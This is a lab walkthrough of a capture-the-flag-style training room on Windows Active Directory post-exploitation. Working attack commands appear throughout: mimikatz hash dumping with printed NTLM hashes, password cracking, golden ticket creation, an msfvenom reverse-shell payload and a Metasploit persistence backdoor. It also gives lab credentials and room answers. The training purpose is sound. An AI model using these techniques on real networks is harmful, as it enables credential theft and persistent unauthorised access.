# Post-Exploitation Basics

Learn the basics of post-exploitation and maintaining access with mimikatz, bloodhound, powerview and msfvenom

This room will cover all of the basics of post-exploitation; we'll talk everything from post-exploitation enumeration with powerview and bloodhound, dumping hashes and golden ticket attacks with mimikatz, basic information gathering using windows server tools and logs, and then we will wrap up this room talking about the basics of maintaining access with the persistence metaploit module and creating a backdoor into the machine to get an instant meterpreter shell if the system is ever shutdown or reset.

This room will be related to very real world applications and will most likely not help with any ctfs however this room will give you great starting knowledge of how to approach a network after you have gained a shell on a machine.

To start this room deploy the machine and start the next section on enumerating with powerview.

This Machine can take up to 10 minutes to boot and up to 10 minutes to ssh or rdp into the machine.

# [Task 2] Enumeration w/ Powerview

To start this room you will need to rdp or ssh into the machine your credentials are - user:Administrator pass:P@$$W0rd domain:controller.local

Your machine IP is 10.10.165.48

Powerview is a powerful powershell script from powershell empire that can be used for enumerating a domain after you have already gained a shell in the system.

We'll be focusing on how to start up and get users and groups from PowerView.

I have already taken the time and put PowerView on the machine

1. Start Powershell `-ep` bypasses the execution policy of powershell allowing you to easily run scripts

~~~
controller\administrator@DOMAIN-CONTROLL C:\Users\Administrator>powershell -ep bypass
~~~

2. Start PowerView

~~~
PS C:\Users\Administrator> . .\Downloads\PowerView.ps1 
~~~

3. Enumerate the domain users - `Get-NetUser | select cn`

~~~
PS C:\Users\Administrator> Get-NetUser | select cn  

cn
--
Administrator
Guest
krbtgt
Machine-1
Admin2
Machine-2
SQL Service
POST{P0W3RV13W_FTW}
sshd
~~~

4. Enumerate the domain groups - Get-NetGroup -GroupName *admin*    

~~~
PS C:\Users\Administrator> Get-NetGroup -GroupName *admin* 
Administrators 
Hyper-V Administrators
Storage Replica Administrators 
Schema Admins
Enterprise Admins
Domain Admins
Key Admins
Enterprise Key Admins 
DnsAdmins
~~~

Now enumerate the domain further on your own

Here's a cheatsheet to help you with commands: https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

Cheatsheet Credit: HarmJ0y

## #1 - What is the shared folder that is not set by default?

*Hint: Invoke-ShareFinder*

~~~
PS C:\Users\Administrator> Invoke-ShareFinder
\\Domain-Controller.CONTROLLER.local\ADMIN$     - Remote Admin 
\\Domain-Controller.CONTROLLER.local\C$         - Default share
\\Domain-Controller.CONTROLLER.local\IPC$       - Remote IPC
\\Domain-Controller.CONTROLLER.local\NETLOGON   - Logon server share
\\Domain-Controller.CONTROLLER.local\Share      -
\\Domain-Controller.CONTROLLER.local\SYSVOL     - Logon server share
~~~

Asnwer: `Share`

## #2 - What operating system is running inside of the network besides Windows Server 2019?

*Hint: Get-NetComputer -fulldata | select operatingsystem*

~~~
PS C:\Users\Administrator> Get-NetComputer -fulldata | select operatingsystem*

operatingsystem                         operatingsystemversion 
---------------                         ----------------------
Windows Server 2019 Standard Evaluation 10.0 (17763)
Windows 10 Enterprise Evaluation        10.0 (18363)
Windows 10 Enterprise Evaluation        10.0 (18363)
~~~

Answer: `Windows 10 Enterprise Evaluation`

## #3 - I've hidden a flag inside of the users find it

Get-NetUser | select cn

~~~
PS C:\Users\Administrator> Get-NetUser | select cn 

cn
--
Administrator
Guest
krbtgt
Machine-1
Admin2
Machine-2
SQL Service
POST{P0W3RV13W_FTW}
sshd
~~~

Answer: `POST{P0W3RV13W_FTW}`

# [Task 3] Enumeration w/ Bloodhound

Bloodhound is a graphical interface that allows you to visually map out the network. This tool along with SharpHound which similar to PowerView takes the user, groups, trusts etc. of the network and collects them into .json files to be used inside of Bloodhound.

Well be focusing on how to collect the .json files and how to import them into Bloodhound

I have already taken the time to put SharpHound onto the machine 

**BloodHound Installation**

1. `apt-get install bloodhound`
2. `neo4j console` - default credentials -> neo4j:neo4j

**Getting loot w/ SharpHound**

1. `powershell -ep bypass` same as with PowerView
2. `. .\Downloads\SharpHound.ps1`    
3. `Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip`



4. Transfer the loot.zip folder to your Attacker Machine

note: you can use scp to transfer the file if your using ssh

**Mapping the network w/ BloodHound**

1. bloodhound Run this on your attacker machine not the victim machine
2. Sign In using the same credentials you set with Neo4j

3. Inside of Bloodhound search for this icon (⭳) and import the loot.zip folder

note: On some versions of BloodHound the import button does not work to get around this simply drag and drop the loot.zip folder into Bloodhound to import the .json files

4. To view the graphed network open the menu and select queries this will give you a list of pre-compiled queries to choose from.



The queries can be as simple as find all domain admins -



Or as complicated as shortest path to high value targets -



There are plenty of queries to choose from and enumerate connections inside of the network

## #1 - What service is also a domain admin

From the pre-built analytics queries, select "Find all Domain Admins":



Answer: `sqlservice`

## #2 - What two users are Kerberoastable?

*Hint: Use "list all kerberoastable accounts"*



Answer: `sqlservice, krbtgt`

# [Task 4] Dumping hashes w/ mimikatz

Mimikatz is a very popular and powerful post-exploitation tool mainly used for dumping user credentials inside of a active directory network

We'll be focusing on dumping the NTLM hashes with mimikatz and then cracking those hashes using hashcat

I have already taken the time to put mimikatz on the machine

**Dump Hashes w/ mimikatz**

1. `cd Downloads && mimikatz.exe` this will cd into the directory that mimikatz is kept as well as run the mimikatz binary



2. `privilege::debug` ensure that the output is "Privilege '20' ok"



3. `lsadump::lsa /patch` Dump those hashes!



**Crack those hashes w/ hashcat**

1. `hashcat -m 1000 <hash> rockyou.txt`



Mimikatz has many uses along side being a great tool to dump hashes we will cover another one of those ways of using mimikatz in the next task by creating a golden ticket with mimikatz

## #1 - what is the Machine1 Password?

~~~
controller\administrator@DOMAIN-CONTROLL C:\Users\Administrator\Downloads>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 May  2 2020 16:23:51
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )  
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com ) 
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/ 

mimikatz # privilege::debug 
Privilege '20' OK 

mimikatz # lsadump::lsa /patch 
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166 

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 2777b7fec870e04dda00cd7260f7bee6

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 5508500012cc005cf7082a9a89ebdfdf

RID  : 0000044f (1103)
User : Machine1
LM   :
NTLM : 64f12cddaa88057e06a81b54e73b949b

RID  : 00000451 (1105)
User : Admin2
LM   :
NTLM : 2b576acbe6bcfda7294d6bd18041b8fe 

RID  : 00000452 (1106)
User : Machine2
LM   :
NTLM : c39f2beb3d2ec06a62cb887fb391dee0 

RID  : 00000453 (1107)
User : SQLService
LM   :
NTLM : f4ab68f27303bcb4024650d8fc5f973a 

RID  : 00000454 (1108)
User : POST
LM   :
NTLM : c4b0e1b10c7ce2c4723b4e2407ef81a2

RID  : 00000457 (1111) 
User : sshd
LM   :
NTLM : bb068638512ac1118ce7f78e92f49792

RID  : 000003e8 (1000)
User : DOMAIN-CONTROLL$
LM   :
NTLM : 634fc097987e56849234eb459373d1e7

RID  : 00000455 (1109)
User : DESKTOP-2$
LM   :
NTLM : 3c2d4759eb9884d7a935fe71a8e0f54c

RID  : 00000456 (1110)
User : DESKTOP-1$
LM   :
NTLM : 7d33346eeb11a4f12a6c201faaa0d89a 
~~~

We have gathered the following hashes:

~~~
Administrator:2777b7fec870e04dda00cd7260f7bee6
krbtgt:5508500012cc005cf7082a9a89ebdfdf
Machine1:64f12cddaa88057e06a81b54e73b949b
Admin2:2b576acbe6bcfda7294d6bd18041b8fe 
Machine2:c39f2beb3d2ec06a62cb887fb391dee0 
SQLService:f4ab68f27303bcb4024650d8fc5f973a 
POST:c4b0e1b10c7ce2c4723b4e2407ef81a2
sshd:bb068638512ac1118ce7f78e92f49792
DOMAIN-CONTROLL$:634fc097987e56849234eb459373d1e7
DESKTOP-2$:3c2d4759eb9884d7a935fe71a8e0f54c
DESKTOP-1$:7d33346eeb11a4f12a6c201faaa0d89a 
~~~

Let's crack the Machine1 password:

~~~
$ echo "64f12cddaa88057e06a81b54e73b949b" > machine1.hash
$ /data/src/john/run/john --format=nt machine1.hash --wordlist=/data/src/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (?)
1g 0:00:00:00 DONE (2020-06-04 20:32) 25.00g/s 91200p/s 91200c/s 91200C/s girls..654123
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed. 
~~~

Answer: `Password1`

## #2 - What is the Machine2 Hash?

Answer: `c39f2beb3d2ec06a62cb887fb391dee0`

# [Task 5] Golden Ticket Attacks w/ mimikatz

Again using the same tool as the previous task; however, this time we'll be using it to create a golden ticket.

We will first dump the hash and sid of the krbtgt user then create a golden ticket and use that golden ticket to open up a new command prompt allowing us to access any machine on the network.

I have already taken the time to put mimikatz on the machine.

**Dump the krbtgt Hash**

1. `cd downloads && mimikatz.exe`
2. `privilege::debug` ensure this outputs [privilege "20" ok]
3. `lsadump::lsa /inject /name:krbtgt` This dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket



Take note of what is outlined in red you'll need it to create the golden ticket

**Create a Golden Ticket**

1. `kerberos::golden /user: /domain: /sid: /krbtgt: /id:`



**Use the Golden Ticket to access other machine**

1. `misc::cmd` - This will open a new command prompt with elevated privileges to all machines



2. Access other Machines! - You will now have another command prompt with access to all other machines on the network





Unfortunately because tryhackme does not currently support networks you will be unable to access other machines however I encourage you to add other machines to this domain controller yourself and try out these attacks.

# [Task 6] Enumeration w/ Server Manager

Because servers are hardly ever logged on unless its for maintenance this gives you an easy way for enumeration only using the built in windows features such as the server manager. If you already have domain admin you have a lot of access to the server manager in order to change trusts, add or remove users, look at groups, this can be an entry point to find other users with other sensitive information on their machines or find other users on the domain network with access to other networks in order to pivot to another network and continue your testing.

The only way to access the server manager is to rdp into the server and access the server over an rdp connection

We'll only be going over the basics such as looking at users, groups, and trusts however there are a lot of other mischief that you can get your hands on in terms of enumerating with the server manager

This can also be a way of easily identifying what kind of firewall the network is using if you have not already enumerated it.

**Connect to the VM w/ rdp**

The IP for the machine is `10.10.148.222`

The credentials are - `domain:controller.local` `user:Administrator` `password:P@$$W0rd`

**Enumeration w/ Server Manager**

This is what Windows Server Manager will look when you first open it up the main tabs that will be most interesting are the tools and manage tabs the tools tab is where you will find most of your information such as users, groups, trusts, computers. The manage tab will allow you to add roles and features however this will probably get picked up by a systems admin relatively quick.

Dont worry about the AD CS, AD DS, DNS, or File and Storage Services these are setup for exploitation of the active directory and dont have much use for post-exploitation



Navigate to the tools tab and select the Active Directory Users and Computers



This will pull up a list of all users on the domain as well as some other useful tabs to use such as groups and computers

Some sys admins dont realize that you as an attacker can see the descriptions of user accounts so they may set the service accounts passwords inside of the description look into the description and find what the SQL Service password is

## #1 - What tool allows to view the event logs?

Answer: `event viewer`

## #2 - What is the SQL Service password

*Hint: Look in the Descriptions*



Answer: `MYpassword123#`

# [Task 7] Maintaining Access

There are a quite a few ways to maintain access on a machine or network we will be covering a fairly simple way of maintaining access by first setting up a meterpreter shell and then using the persistence metasploit module allowing us to create a backdoor service in the system that will give us an instant meterpreter shell if the machine is ever shutdown or reset.

There are also other ways of maintaining access such as advanced backdoors and rootkits however those are out of scope for this room.

This will require a little more manual setup than the other tasks so it is recommended to have previous knowledge of msfvenom and metasploit.

**Generating a Payload w/ msfvenom**

1. `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe` this will generate a basic windows meterpreter reverse tcp shell



2. Transfer the payload from your attacker machine to the target machine.
3. `use exploit/multi/handler` - this will create a listener on the port that you set it on.
4. execute the binary this will give you a meterpreter shell back in metasploit - background your meterpreter session we won't actually be using it for the shell.

**Run the Persistence Module**

1. `use exploit/windows/local/persistence` this module will send a payload every 10 seconds in default however you can set this time to anything you want
2. `set session 1` set the session to your background meterpreter session



If the system is shut down or reset for whatever reason you will lose your meterpreter session however by using the persistence module you create a backdoor into the system which you can access at any time using the metasploit multi handler and setting the payload to `windows/meterpreter/reverse_tcp` allowing you to send another meterpreter payload to the machine and open up a new meterpreter session.



Here you can see the session die however the second we run the handler again we get a meterpreter shell back thanks to the persistence service.

There are other ways of maintaining access such as adding users and rootkits however I will leave you to do your own research and labs on those topics.

# [Task 8] Conclusion

Final Thoughts -

This room has given a good beginning with post-exploitation however there are a lot of other methods ever-evolving. I suggest to you to go out and do your own research find your own tools that you like to use for post-exploitation. I hope to make another room similar to this covering more advanced topics such as more in-depth backdoors and trojans, pivoting, token impersonation, and silver ticket attacks. I hope that this room has helped to give you a better understanding of how post-exploitation works in a real-world scenario.

Resources -

* https://blog.harmj0y.net/
* https://adsecurity.org/?page_id=1821
* https://metasploit.help.rapid7.com/docs/about-post-exploitation
* http://www.pentest-standard.org/index.php/Post_Exploitation
* https://offsec.red/mimikatz-cheat-sheet/
* https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

Tools/Malware Used -

* https://github.com/gentilkiwi/mimikatz
* https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.ps1
* https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
